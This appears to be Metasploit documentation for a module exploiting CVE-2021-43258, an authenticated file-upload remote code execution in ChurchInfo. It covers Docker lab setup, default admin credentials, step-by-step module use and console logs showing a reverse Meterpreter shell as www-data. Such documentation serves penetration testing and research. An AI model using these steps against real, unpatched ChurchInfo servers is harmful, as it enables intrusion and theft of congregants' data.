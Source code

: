 ## Vulnerable Application
* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/

ChurchInfo is an open source PHP application used to help churches manage systems and users of the church.
There are various vulnerabilities in the ChurchInfo software which can be exploited by an
attacker, however this module targets an authenticated remote code execution (RCE) vulnerability
known as CVE-2021-43258 to execute code as the web daemon user (e.g. www-data).

ChurchInfo v1.2.13, v1.2.14, and v1.3.0 contain functionality to email users listed in the ChurchInfo database
with attachments. When preparing the email, a draft of the attachment is saved into
`/tmp_attach/`, which is a web accessible folder under the ChurchInfo web root. Before the email is sent,
the attachment draft can be loaded in the application. By uploading a malicious PHP file
as an attachment and then browsing to it on the web server, RCE can be achieved.

This vulnerability was assigned CVE-2021-43258. Version 1.3.0 was the latest version of ChurchInfo at the time
of writing and there is presently no known patch for this issue.

### Installation
Installation guides are available on the SourceForge site at https://sourceforge.net/projects/churchinfo/files/.

The following however is a quick and easy way to get most versions of churchinfo up and running using Docker,
which should make it a lot easier to setup and also clean up once you are finished testing things out.

1. `wget https://master.dl.sourceforge.net/project/churchinfo/churchinfo/1.3.0/churchinfo-1.3.0.tar.gz`
1. `tar -xvf churchinfo-1.3.0.tar.gz`
1. `sudo docker run -i -t -p "9090:80" -v ${PWD}/churchinfo:/app mattrayner/lamp:0.8.0-1804-php7`.
1. Check the output. You should see something like this: `mysql -uadmin -punOFDEJCrm6K -h<host> -P<port>`
1. `sudo docker ps -a` and find the container that was created and is running.
1. `sudo docker exec -it 5f1861241f19 /bin/bash`
1. Inside the new prompt: 
1. `mysqladmin -u root -p create churchinfo` and press the ENTER key when prompted for the password.
1. `cd /app/churchinfo/SQL`
1. `mysql -u root -p churchinfo < Install.sql` and press the ENTER key when prompted for the password.
1. `apt-get install nano` if you want to use Nano.
1. `nano /app/churchinfo/Include/Config.php`.
1. Set the `$sUSER` variable to `'root'`.
1. Set the `$sPASSWORD` variable to `''`.
1. Set the `$sRootPath` variable to `''`.
1. Set the `$URL[0]` to `http://localhost/churchinfo/Default.php`.
1. Exit out of `nano` and run `/etc/init.d/apache2 restart`
1. You should now be able to log in at `http://127.0.0.1:9090/churchinfo/Default.php` with the username `Admin` and password `churchinfoadmin`.
1. This should cause the app to redirect to a password change form. 
1. Specify the old password, aka `churchinfoadmin` and then specify the new password twice and submit the form.
1. You should now be ready to test the module!

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable
ChurchInfo application, there MUST be a person entry available within the database. If there are no person
entries within the database, it will not be possible to create a draft email. This draft email
will be used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

### Module Use
The following steps outline how to use the module.
1. Install the application and register an account.
1. Create some person entries within the database, validate they populate at the page `/SelectList.php?mode=person`.
1. Start `msfconsole`
1. `use exploit/multi/http/churchinfo_upload_exec`
1. Set the target `RHOST`, `APPBASE`, `username`, and `password` values.
1. Select the payload of choice or leave default.
1. Set the `LHOST` to your system.
1. Run the exploit with `run`, enjoy the shell!

If exploit was successful, output should be something close to the following:

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.240:4444
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: 3
[+] Uploading exploit via Email temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/FjuIxnXKe.php
[!] Don't forget to clean up artifacts at /churchinfo/tmp_attach/FjuIxnXKe.php
[*] Sending stage (39927 bytes) to 192.168.1.72
[*] Meterpreter session 2 opened (192.168.1.240:4444 -> 192.168.1.72:37250) at 2022-11-12 21:38:30 -0500

meterpreter > getuid

Server username: www-data 
```

## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.

### USERNAME
The username of a valid user account for the ChurchInfo application. Default is `admin`.

### PASSWORD
The password for a valid user account for the ChurchInfo application. Default is `churchinfoadmin` based on documentation.

### APPBASE
The base directory path to the ChurchInfo application. This can and will likely
vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ
The subject of the draft email used for the exploit, the email is not sent. Default value is `Read this now!`.

### EMAIL_MESG
The message on the draft email which is used for the exploit. The email is not sent. Default value is `Hello there!`.

## Scenarios
If there are no person entries in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```

This will enable additional information and details about the exploit as it is launched.

### ChurchInfo 1.3.0
### ChurchInfo v1.3.0 with MySQL 5.7.40 on Ubuntu Linux 18.04.5 LTS
There are several options available. This exploit requires authenticated access
to the email application for ChurchInfo. The default username is `admin` and
password is `churchinfoadmin` based on the installation documentation.
Both `EMAIL_MESG` and `EMAIL_SUBJ` are required to upload the exploit, but
do not have any affect on what type of exploit is launched. `TARGETURI` is
the location the ChurchInfo application is installed.

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run
                                                 
[*] Started reverse TCP handler on 192.168.1.240:4444    
[*] Gathering PHP session cookie                       
[*] SSL is false, leaving protocol as HTTP           
[+] PHP session cookie is PHPSESSID=19rjcc9tbmvj6tpbl7iql0lm0q;
[*] Attempting login                                  
[+] Location header is /churchinfo//CheckVersion.php
[+] Logged into application as admin                  
[*] Attempting exploit                                  
[*] Navigating to add items to cart                  
[+] Items in Cart: 3                              
[+] Uploading exploit via temp email attachment            
[*] Payload name is 0EXot.php                       
[+] Exploit uploaded to /churchinfo/tmp_attach/0EXot.php
[+] Executing payload with GET request                  
[*] Sending stage (39927 bytes) to 192.168.1.72    
[+] Deleted 0EXot.php                               
[*] Meterpreter session 20 opened (192.168.1.240:4444 -> 192.168.1.72:37656) at 2022-11-18 06:31:30 -0500

meterpreter > getuid                                   
Server username: www-data
```
